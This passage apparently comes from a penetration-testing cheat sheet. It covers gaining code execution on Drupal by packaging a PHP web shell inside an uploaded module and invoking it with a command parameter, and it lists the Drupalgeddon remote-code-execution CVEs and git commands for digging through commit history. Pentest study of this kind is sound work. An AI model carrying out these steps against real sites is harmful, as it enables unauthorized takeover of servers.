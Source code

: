   1. Download 

     ```bash
     wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
     ```

  2. Go to Administration &rarr; Reports &rarr; Available updates (or in the Extend menu)

  3. Install &rarr; Previous exploit

- **Upload a new Module** (administrative access)

  1. Select a module and download it, e.g. CAPTCHA

     ```bash
     wget --no-check-certificate https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz; tar xvf captcha-8.x-1.2.tar.gz
     ```

  2. Create PHP Shell File

  3. Create a `.htaccess` File

     ```html
     <IfModule mod_rewrite.c>
     RewriteEngine On
     RewriteBase /
     </IfModule>
     ```

  4. Create  an archive

     ```bash
     mv shell.php .htaccess captcha
     tar cvf captcha.tar.gz captcha/
     ```

  5. Upload:

     - click on Manage &rarr; Extend &rarr; Install new module`

     - Request: `/modules/captcha/shell.php?p=[CMD]`

- **Drupalgeddon**

  - [Drupalgeddon](https://www.drupal.org/SA-CORE-2014-005) 7.0 - 7.31 pre-authenticated SQL injection
  - [Drupalgeddon2](https://www.drupal.org/sa-core-2018-002)<7.58, 8.5.1 RCE
  - [Drupalgeddon3](https://cvedetails.com/cve/CVE-2018-7602/) 7.x, 8.x RCE
## Git
### Privesc
- `git log --oneline` -> get commits
- `git diff [CURR_COMMIT] [COMMITS]`
- `git checkout [COMMIT]` -> browse the correspondent folder
## Gitlab
